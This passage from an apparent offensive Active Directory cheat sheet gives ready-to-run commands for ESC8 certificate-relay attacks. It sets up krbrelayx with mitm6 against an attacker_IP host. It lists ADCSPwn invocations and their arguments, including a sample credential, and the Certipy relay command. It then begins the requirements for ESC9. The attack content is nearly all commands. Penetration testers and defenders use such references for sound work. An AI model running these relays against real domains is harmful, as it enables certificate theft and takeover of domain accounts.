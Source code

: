 - **Version 3**: Kerberos Relay
    
    ```ps1
    # Setup the relay
    sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
    
    # Run mitm6
    sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
    ```
    
- **Version 4**: ADCSPwn - Require `WebClient` service running on the domain controller. By default this service is not installed.
    
    ```powershell
    https://github.com/bats3c/ADCSPwn
    adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
    adcspwn.exe --adcs cs.pwnlab.local
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
    adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
    
    # ADCSPwn arguments
    adcs            -       This is the address of the AD CS server which authentication will be relayed to.
    secure          -       Use HTTPS with the certificate service.
    port            -       The port ADCSPwn will listen on.
    remote          -       Remote machine to trigger authentication from.
    username        -       Username for non-domain context.
    password        -       Password for non-domain context.
    dc              -       Domain controller to query for Certificate Templates (LDAP).
    unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
    output          -       Output path to store base64 generated crt.
    ```
    
- **Version 5**: Certipy ESC8
    
    ```ps1
    certipy relay -ca 172.16.19.100
    ```
    

### ESC9 - No Security Extension

Requirements:

- `StrongCertificateBindingEnforcement` set to `1` (default) or `0`
- Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
- Certificate specifies `Any Client` authentication EKU
- `GenericWrite` over any account A to compromise any account B

